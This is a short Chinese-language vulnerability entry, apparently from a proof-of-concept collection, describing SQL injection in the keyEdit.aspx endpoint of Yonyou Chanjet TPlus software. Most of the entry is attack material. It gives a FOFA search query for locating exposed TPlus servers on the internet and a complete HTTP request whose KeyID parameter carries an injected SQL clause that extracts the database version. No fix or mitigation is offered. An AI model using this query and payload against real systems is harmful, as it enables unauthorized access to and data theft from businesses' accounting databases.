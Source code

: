 ## 用友畅捷通TPlus-keyEdit.aspx接口存在SQL注入漏洞

## fofa
```
app="畅捷通-TPlus"
```


## poc
```
GET /tplus/UFAQD/keyEdit.aspx?KeyID=1%27%20and%201=(select%20@@version)%20--&preload=1 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xxx.xxx.xxx
Accept-Charset: utf-8
```

![2099c8aae5cff9620805364eacbd9ea8](../../images/b1cb6ae4-3588-4de9-a97d-e57bc6607f7c.png)
